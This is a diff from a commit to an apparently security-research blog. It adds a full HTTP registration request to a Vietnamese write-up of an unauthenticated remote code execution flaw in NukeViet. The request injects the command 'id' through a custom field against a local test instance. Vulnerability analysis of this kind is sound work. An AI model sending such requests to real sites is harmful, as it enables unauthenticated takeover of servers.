

Before and after one commit to 0xki29/blog, a Jekyll site: the page built from _posts/2026-08-30-nukeviet-arbitrary-callback-rce.md, in a window 1280 px wide and 900 px high, scrolled down 7085 px. Shown: the whole window, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add post: NukeViet arbitrary callback RCE analysis

````diff
--- a/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
+++ b/_posts/2026-08-30-nukeviet-arbitrary-callback-rce.md
@@ -222,10 +222,19 @@ Nếu field cũ vốn là kiểu "lựa chọn" (dropdown/checkbox), code sẽ
 Bất kỳ ai — kể cả người dùng chưa có tài khoản — gửi request đăng ký với field vừa bị gài bẫy:
 
 ```
-POST /index.php?nv=users&op=register
-...
-custom_fields[nv_poc_rce]=id
+POST /index.php/en/users/register/ HTTP/1.1
+Host: 127.0.0.1:8080
+Content-Length: 300
+Content-Type: application/x-www-form-urlencoded; charset=UTF-8
+Origin: http://127.0.0.1:8080
+Referer: http://127.0.0.1:8080/index.php/en/users/register/
+Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq; nv4_ctr=MTI3XzBfMF8xLlpa; nv4_cltz=420.420.420%257C%252F%257C; nv4_int_lang=pOxnN8G_Y2oE8WkMeO5ZaA%2C%2C; nv4_data_lang=nm4mM0iUHCjIeKvQXUH07A%2C%2C; nv4_statistic_vi=UBvGwCykzSgyccgMyKVTdg%2C%2C; nv4_nvvithemever=uT11mKuPK7N0yvymMZ3phA%2C%2C; nv4_cltn=QXNpYS9CYW5na29rLjI1MjAwLjA%3D; nv4_sess=3a7c37e4920abcaeab8448f88be01f15; nv4_u_lang=pOxnN8G_Y2oE8WkMeO5ZaA%2C%2C; nv4_statistic_en=k3GL5m1flaMTyFg0Z2rVSQ%2C%2C; nv4_nventhemever=uT11mKuPK7N0yvymMZ3phA%2C%2C
+Connection: keep-alive
+
+first_name=tesst&last_name=test&username=test01&email=hust1212%40gmail.com&password=Password123%40!&re_password=Password123%40!&gender=M&birthday=23%2F08%2F1985&sig=test&question=test&answer=test&custom_fields%5Bnv_poc_rce%5D=id&agreecheck=1&nv_seccode=2DC76F&checkss=b381411c8c8e6f6ccc860e3bbdf50517
 ```
+
+![](/blog/assets/rce.png)
 
 Server thực thi:
 
````
Also changed, not shown: assets/rce.png (added).
